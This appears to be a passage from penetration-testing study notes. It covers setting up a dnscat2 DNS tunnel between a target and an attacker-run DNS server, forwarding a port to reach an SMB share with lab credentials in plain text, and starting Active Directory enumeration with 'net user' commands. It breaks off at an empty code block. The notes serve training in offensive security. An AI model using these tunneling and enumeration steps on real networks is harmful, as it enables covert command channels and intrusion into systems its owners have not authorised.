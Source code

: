 ```bash
sudo dnsmasq -C dnsmasq.conf -d
```
setup tcpdump in another shell of the DNS server
```bash
sudo tcpdump -i ens192 udp port 53
```
On target machine, we can check the DNS settings using the **resolvectl** utility.
```bash
resolvectl status
```
flushing the local DNS cache
```bash
resolvectl flush-caches
```
### Tunneling by dnscat2
inspect traffic on DNS server.
```bash
sudo tcpdump -i ens192 udp port 53
```
run **dnscat2-server**, passing the **feline.corp** domain:
```bash
dnscat2-server feline.corp
```
dnscat2 server is listening on all interfaces on UDP/53.
On the Target, run dnscat client:
```bash
./dnscat feline.corp
```
On dnscat2(dns server):
List all the active windows with the **windows** command
```bash
windows
window -i 1
```
list the available commands
```bash
?
```
Set up a local port forward:
```bash
listen 127.0.0.1:4455 172.16.2.11:445
```
Then, e.g. List smbshare
```bash
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```
The connection is slower than a direct connection
# Active Directory
## Manual Enumeration
AD enumeration relies on **LDAP** - Communication channel for the query.
```
LDAP://HostName[:PortNumber][/DistinguishedName]
```
### Use Windows tools
list user in domain:
```powershell
net user /domain
```
list specific domain user:
```powershell
net user [username] /domain
```
list domain groups:
```powershell
```